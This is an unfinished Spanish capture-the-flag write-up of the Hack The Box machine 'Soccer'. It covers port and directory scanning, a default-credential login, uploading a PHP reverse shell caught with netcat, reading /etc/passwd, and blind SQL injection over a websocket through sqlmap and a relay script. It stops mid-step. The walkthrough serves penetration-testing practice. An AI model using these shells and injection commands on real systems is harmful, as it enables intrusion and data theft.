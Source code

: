 ```yaml
---
title: Soccer HTB
date: 2023-02-20
---
```

#linux #nginx 

SIN TERMINAR

## Reconocimiento

Comenzaremos comprobando que la máquina se encuentra activa con `ping`, y en base al ttl, podemos sospechar que se trata de una máquina **linux**. A continuación lanzamos [[nmap]] en busca de puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn <ip>
```
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```

Vemos que tenemos un *ssh*, una página *http* y otro servicio llamado *xmltec-xmlmail*.

Volvemos a lanzar nmap en busca de más información y las versiones de cada servicio:

```bash
sudo nmap -sCV -p 22,80,9091 -n -Pn <ip>
```
```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
```

Vemos que se trata de una máquina Ubuntu, sin embargo nmap no consigue sacar información sobre el servicio del puerto 9091.

Tratamos ahora de acceder a la página, después de añadir el dominio al `/etc/hosts`. Pero vemos que se trata de un simple blog. Así que podríamos pasar a buscar posibles archivos y directorios con [[gobuster]] ([[Directories and files enumeration 1]]):

```bash
gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirb/common.txt
```
```bash
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/20 10:40:23 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
Progress: 20469 / 20470 (100.00%)
===============================================================
2023/02/20 10:49:29 Finished
===============================================================
```

Vemos que tiene un directorio `/tiny/`, así que tratamos de acceder. Una vez dentro vemos una pestaña de login. Con una búsqueda rápida en internet encontramos que las credenciales por defecto para el servicio son `admin:admin@123`, y resultan ser válidas, dándonos acceso a un panel de administración.


## Explotación

En este punto, podríamos tratar de subir una reverse shell al servidor para tratar de conectarnos. Con [[wappalizer]] vemos que la página utiliza php como lenguaje. Así que subiremos una reverse shell en ***php*** ([[Reverse shell]]), en concreto esta de [aquí](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Y cambiamos la ip y el puerto, en mi caso usaré el 443:

```php
$ip = '127.0.0.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
```

Nos ponemos en escucha con [[netcat]]:

```bash
nc -lvnp 443
```

Y la subimos y accedemos a la ruta `http://soccer.htb/tiny/uploads/reverse_shell.php`.

```bash
listening on [any] 443 ...
connect to [10.10.16.46] from (UNKNOWN) [10.10.11.194] 44028
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 22:37:49 up  3:01,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```


## Escalada de privilegios

Si comprobamos que usuario somos con `whoami` vemos que somos `www-data`, y con `groups` vemos que únicamente pertenecemos al grupo `www-data`.

Antes de comenzar a elevar privilegios aplicaremos un [[Tratamiento de la tty]].

Una vez con una shell completamente interactiva podemos echar un vistazo al `/etc/passwd` para tratar de encontrar usuarios potenciales. Para nuestra suerte tenemos privilegios para listarlo:

```bash
bash-5.0$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
player:x:1001:1001::/home/player:/bin/bash
```

Con `grep bash` podemos buscar los usuarios potenciales, entre los que vemos a `root` y a `player`.

Como recordamos que el servidor se trataba de un [[nginx 1]], cpodemos tratar de listar el `/etc/nginx/sites-enabled` en busca de posibles subdominios:

```bash
bash-5.0$ cd /etc/nginx/sites-enabled
bash-5.0$ ls
default  soc-player.htb
```

Tratamos ahora de acceder al subdominio, añadiéndolo en el `/etc/hosts` (`sudo echo '<ip> soc-player.soccer.htb' >> /etc/hosts`) y accediendo por el navegador. La página parece igual que la que ya habíamos visto, pero ahora hay una pestaña de registro y de login.

Intentemos registrarnos y loguearnos.

En el código fuente de la página que nos sale una vez dentro (*CTL+U*), podemos ver:

```js
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        [...]
	    function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
	    [...]
```

Además tenemos asignado un *número de ticket* y hay un buscador que aparentemente sólo dice si el ticket existe. En este punto podríamos buscar una posible vuln de [[Sql injection]]. Si probamos con nuestro número nos dice que *Ticket Exists*, en cambio con cualquier otro nos dice que *Ticket Doesn't Exist*. Pero si probamos con `<numero que no exista> OR 1`, entonces si existe, por tanto de ducimos que **existe una vulnarebilidad de sql injection**.

Como no podemos lanzar [[sqlmap]] directamente ya que la petición va a través de sockets, hacemos una búsqueda por internet sobre cómo realizar un SQLi a través de websockets. Lo que nos lleva al siguiente [artículo](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) con un script muy interesante en *python3*. 

El script hará las veces de transcriptor, poniéndose entre el servidor y sqlmap. Primero debemos cambiar `ws_server` y `data`:

```python
ws_server = "ws://soc-player.soccer.htb:9091"
```
```python
data = '{"id":"%s"}' % message
```

Y arrancamos el script:

```bash
sudo python3 script.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

Después lanzamos sqlmap:

```bash
sudo sqlmap -u 'http://localhost:8081/?id=1' -p 'id'
```

Podemos ver que lanzamos sqlmap para que acceda mediante el script.

Obtenemos:

```bash
[01:14:17] [INFO] resuming back-end DBMS 'mysql' 
[01:14:17] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1046 FROM (SELECT(SLEEP(5)))maQi)
---
[01:14:48] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[01:14:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'
```

Así que volvemos a lanzar sqlmap:

```bash
sudo sqlmap -u 'http://localhost:8081/?id=' --current-db
```
```bash

```